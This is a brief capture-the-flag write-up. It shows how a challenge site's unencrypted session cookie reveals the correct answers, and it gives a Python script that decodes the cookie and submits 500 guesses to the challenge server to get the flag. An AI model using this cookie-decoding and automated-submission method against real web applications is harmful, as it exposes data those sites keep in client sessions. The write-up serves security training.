 
The page shows a random generated image with random generated file name every time refresh, for the first time visit it, a ``session`` value is set in cookie.

```bash
session: eyJhbnN3ZXIiOlsyNSwyMywxMyw5M10sImNvcnJlY3QiOjIsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL2lNdUx4T29DeUIuanBnIn0.YGrDwA.Vr2yoO58ay3OhDqhOd6xqLYa45c
```

Decode it with ``base64`` we get key-value data, as the ``session`` value itself comes with some additional bytes at the end, might cause some parse issue. It seems ``answer`` is correct guess for ``image``. Send it with ``,`` is not working and the guess count is reset to 0, but it works with space splitter.

```bash
base64 -d <<< eyJhbnN3ZXIiOlsyNSwyMywxMyw5M10sImNvcnJlY3QiOjIsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL2lNdUx4T29DeUIuanBnIn0.YGrDwA.Vr2yoO58ay3OhDqhOd6xqLYa45c
{"answer":[25,23,13,93],"correct":2,"image":"./static/chall-images/iMuLxOoCyB.jpg"}base64: invalid input
```

The session value is used for post requests. If the submitted data is correct, the correct guess count on page is increamented by 1. Every time we make a guess the session value in cookie changes, so we need to re-parse and use it for the next guess. We need to guess 500 times to meet the requirement.

```python
remote = "http://104.197.195.221:8084"

def parse():
    sess = base64.decodebytes(rsp.cookies['session'].split('.')[0].encode()+b'==')
    ans = json.loads(sess)['answer']
    guess = ' '.join(map(str, json.loads(sess)['answer']))
    return guess

rsp = requests.get(remote)
guess = parse()

for i in range(1, 501):
    rsp = requests.post(remote,
            data={'guess': guess},
            headers={
            'Content-Type': 'application/x-www-form-urlencoded',
            },
            cookies=rsp.cookies)
    print(rsp.text)
    guess = parse()
```

After 500 correct guess, we get the flag in response.


